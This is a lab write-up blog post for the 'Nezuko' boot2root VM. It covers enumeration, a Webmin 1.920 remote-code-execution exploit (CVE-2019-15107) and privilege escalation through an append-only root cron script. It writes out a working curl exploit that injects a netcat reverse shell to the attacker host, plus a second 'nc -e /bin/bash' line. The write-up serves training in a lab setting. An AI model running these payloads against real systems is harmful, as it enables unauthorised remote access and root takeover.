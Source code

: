 ```yaml
---
layout: post
title: "VM Nezuko Boot2Root Writeup"
categories: jekyll
permalink : /others/vm_nezuko
---
```


Hi there. This is my boot2root writeup for a vm called "Nezuko". For those who didn't manage to play with it, download the vm (add link to vm) and come back when you have finished.

### About Nezuko VM

![nezukovm](/musubi/assets/vm_nezuko/nezukovm.png)

I would consider this as an easy to intermediate level machine. But, if you need some hints, do reach me on [Twitter](htttps://twitter.com/yunaranyancat)

## Walkthrough

### Enumeration

Let's assume that we put our attacking machine (Kali) and Nezuko VM inside the same subnet which is `10.10.10.0/24` .
Therefore, by running `netdiscover -i eth0 -r 10.10.10.0/24` , we will find out that Nezuko vm is located at `10.10.10.4`.

p/s : the Kali vm has an IP of `10.10.10.5` . This is useful for us to create a reverse shell later.

![netdiscover](/musubi/assets/vm_nezuko/netdiscover.png)

By running `nmap -sS -sC -sV -oA nezukocommon 10.10.10.4` , we will get the following output.

![nmapcommon](/musubi/assets/vm_nezuko/nmapcommon.png)

Now, let's go to the webpage of `10.10.10.4` .

![nezukowebpage](/musubi/assets/vm_nezuko/nezukowebpage.png)

Nothing interesting except for nezuko chan.. ಥ ⌣ ಥ

By going to `10.10.10.4/robots.txt` , we will find an encoded text there.

![robotswebpage](/musubi/assets/vm_nezuko/robotswebpage.png)

The text is encoded with base32. Using online decoder such as this [site](https://emn178.github.io/online-tools/base32_decode.html) , we will get below plaintext.

![base32_decoded](/musubi/assets/vm_nezuko/base32_decoded.png)

Since we got a hint from nezuko saying this is not the right port to enumerate. We will run an nmap scan again now to scan all ports.

Note : By default, nmap will only scan for common 1000 ports. You can check the specific ports that nmap scans using the default scan on this [site](https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/).

By running `nmap -sS -sC -sV -p- -oA nezukoallports 10.10.10.4` , we will get below output.

![nmapallports](/musubi/assets/vm_nezuko/nmapallports.png)

It seems that port `13337` is running a `webmin` service. This might be an entry point for us.

### Exploitation

The target is running `webmin 1.920` . After some searching for webmin vulnerabilities, we will find a remote code execution vulnerability related to this specific version of webmin.

- [https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

![testexploit](/musubi/assets/vm_nezuko/testexploit.png)

Another link will lead us to a Metasploit module. However, we will not be using Metasploit because it will ruin all of the fun.

- [https://www.exploit-db.com/exploits/47230](https://www.exploit-db.com/exploits/47230)

![metasploit](/musubi/assets/vm_nezuko/metasploit.png)

Copy the shell script (in the first link) to our Kali to test if the target is vulnerable to rce exploit or not.

![vulnerablecheck](/musubi/assets/vm_nezuko/vulnerablecheck.png)

So it seems that the target is vulnerable.

We will modify the test code so that we can get a shell from the machine.

Our final exploit code should look something like this.

{% highlight bash %}
#!/bin/sh
URI=$1;

echo -n "Exploit for RCE (CVE-2019-15107) on $URI: ";
curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|nc -e /bin/bash 10.10.10.5 1337 &new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi' -X POST
{% endhighlight %}

Before running the exploit we should start our netcat listener on our Kali.

![listener_1337](/musubi/assets/vm_nezuko/listener_1337.png)

Then run the exploit code,
{% highlight bash %}
root@kali:~#sh exploit.sh https://10.10.10.4:13337
{% endhighlight %}

![nezuko_shell](/musubi/assets/vm_nezuko/nezuko_shell.png)

We got a shell as nezuko!

### (Optional) Upgrade to SSH session

We can obtain ssh session as nezuko by adding our public key to `/home/nezuko/.ssh/authorized_keys`.

First we need to generate our own private and public SSH key.

{% highlight bash %}
root@kali:~#ssh-keygen -t rsa
{% endhighlight %}

Save the key in our current working directory by putting a name when prompted for the filename, in this case, the filename will be `yunaranyancat`

Copy the content of `yunaranyancat.pub` to `/home/nezuko/.ssh/authorized_keys`

![ssh-keygen](/musubi/assets/vm_nezuko/ssh-keygen.png)

![copytoauthkeys](/musubi/assets/vm_nezuko/copytoauthkeys.png)

After that we can ssh as nezuko using following command

![sshprivate](/musubi/assets/vm_nezuko/sshprivate.png)

### Changing user to zenitsu

We find out that `/etc/passwd` is readable and furthermore, it reveals `zenitsu` password hash.

![etcpasswd](/musubi/assets/vm_nezuko/etcpasswd.png)

We can try to crack the hash using hashcat by typing following command.

![copytocrack](/musubi/assets/vm_nezuko/copytocrack.png)

![examplehash](/musubi/assets/vm_nezuko/examplehash.png)

And after waiting for a while, the hash has been cracked and stored inside file `cracked`.

![cracked](/musubi/assets/vm_nezuko/cracked.png)

Once we got the password, which is `meowmeow` , we can su as `zenitsu` user.

{% highlight bash %}
nezuko@ubuntu:~#su zenitsu
{% endhighlight %}

and when prompted with password, put `meowmeow` and then click enter.

### Privilege escalation

As `nezuko` user before, we found out that there is a folder named `from_zenitsu` in the home directory and now as `zenitsu`, we found a folder named `to_nezuko`. Upon inspecting both folder, we can say that these directories;

- from_zenitsu : contains message sent by zenitsu every 5 minutes (based on the name of the messages)

- to_nezuko : contains a bash script owned by zenitsu that will send a message to nezuko.

However, upon further inspection, we found out that the script is being run by `root` instead. That's why the messages sent to nezuko home directory are owned by `root`.

We can verify it by running
{% highlight bash %}
nezuko@ubuntu:~#ls -la /home/nezuko/from_zenitsu/*
{% endhighlight %}

This means that, we can escalate our current privileges to `root` privileges by modifying the content of bash.

Since the owner of the script is `zenitsu` , then it is possible to overwrite the script.

![cannot_change_bash](/musubi/assets/vm_nezuko/cannot_change_bash.png)

But, it seems that we obtained `permission denied` when trying to overwrite the content of the bash script.

### Exploiting file attributes

When running `lsattr` on the bash script, it showed that the file attribute of the bash script has been changed to `a`(append) mode only. This means we can only append the script but cannot overwrite it.

![lsattr](/musubi/assets/vm_nezuko/lsattr.png)

With a slight modification to our command, we managed to append our own command which will connect to our Kali.

{% highlight bash %}
zenitsu@ubuntu:~/to_nezuko$echo "nc -e /bin/bash 10.10.10.5 1234" >> send_message_to_nezuko.sh
{% endhighlight %}

Set up our listener to listen on port 1234

![listener_1234](/musubi/assets/vm_nezuko/listener_1234.png)

After waiting for couple of minutes for the script to be executed, we managed to get a root shell!

![root](/musubi/assets/vm_nezuko/root.png)

### Wrap up

Thank you for taking your time to read the writeup and I hope you enjoyed playing with my first vm. :>
